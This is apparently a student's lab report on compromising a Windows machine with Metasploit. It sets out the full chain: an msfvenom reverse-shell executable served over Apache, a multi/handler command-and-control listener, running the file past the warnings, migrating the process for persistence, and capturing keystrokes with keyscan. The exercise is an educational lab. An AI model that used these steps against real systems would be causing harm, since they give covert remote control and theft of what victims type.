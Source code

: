 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
```
Tested By : ROHITH .V
Reg. no: 212223040174
```

Find the attackers ip address using ifconfig
## OUTPUT:
![img01](https://github.com/user-attachments/assets/48184a16-ab3e-44fe-8b73-be02546358c1)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![img02](https://github.com/user-attachments/assets/96704f06-9b23-454b-b5f4-99890965686f)




copy the fun.exe into the apache /var/www/html folder
![img03](https://github.com/user-attachments/assets/6b6cb525-f9eb-4162-8080-bf518aef7a16)


Start apache server
sudo systemctl apache2 start

![img04](https://github.com/user-attachments/assets/c6d7a0c3-20a9-4f97-aa93-2340ae6618dc)



Check the status of apache2
![img05](https://github.com/user-attachments/assets/ab3a063a-5f1c-4634-9666-21a2c4df1ca4)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![img06](https://github.com/user-attachments/assets/9d2930e9-2ca2-4f41-a12d-f6bb464eeba7)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![img07](https://github.com/user-attachments/assets/a6d9de9f-0192-4578-912c-4f861fe8aa4a)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![img08](https://github.com/user-attachments/assets/75c32eb4-7e41-4099-b807-0c216ab6f81f)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![img09](https://github.com/user-attachments/assets/bc0ae88a-5538-4752-9c80-3841d56107d1)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![img010](https://github.com/user-attachments/assets/22a7c2bf-649f-4651-ac16-793e7f4307fc)



keyscan_dump	Shows the keystrokes captured so far
![img011](https://github.com/user-attachments/assets/a8cfb90f-080e-490f-b546-b42be0d318f8)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
